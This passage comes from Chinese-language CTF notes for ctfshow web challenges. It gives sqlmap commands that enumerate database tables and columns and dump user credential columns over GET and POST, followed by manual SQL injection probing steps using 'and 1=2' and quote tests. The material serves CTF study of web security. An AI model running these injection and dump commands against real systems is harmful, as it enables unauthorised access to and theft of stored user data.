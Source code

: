 查表名：

```
python sqlmap.py -u <url>  -D ctfshow_web -tables
```

查列名：

```
python sqlmap.py -u <url>  -D ctfshow_web -T ctfshow_user -columns
```

查flag：

```
python sqlmap.py -u <url>  -D ctfshow_web -T ctfshow_user -C "id,pass,username" -dump
```

## 3.post

使用post方式进行注入，可以直接用`--data="id=1"`，也可以`--method=post`来触发

查数据库：

```
python sqlmap.py -u <url> --data="id=1" -dbs
```

查表名：

```
python sqlmap.py -u <url> --data="id=1" -D ctfshow_web -tables
```

查列名：

```
python sqlmap.py -u <url>  -D ctfshow_web -T ctfshow_user -columns
```

查flag：

```
python sqlmap.py -u <url>  -D ctfshow_web -T ctfshow_user -C "id,password" --dump
```



# 2.sql 基本操作

1.判断是字符型还是数字型，使用 2-1 来判断

```
判断是数字型还是字符型：通过?id=1 and 1=2判断，如果显示不正常，说明是数字型，如果显示正常，就是字符串型，就需要进行下面的步骤继续判断。
判断是什么符号的字符型：
单引号测试：通过?id=1'观察回显
双引号测试：通过?id=1"观察回显
判断出字符型：如果哪个符号回显是报错信息，则表示是哪个符号的字符型，接着使用对应符号闭合之后进行SQL注入即可
```

2.如果是字符型，判断闭合方式，' " ')  ")
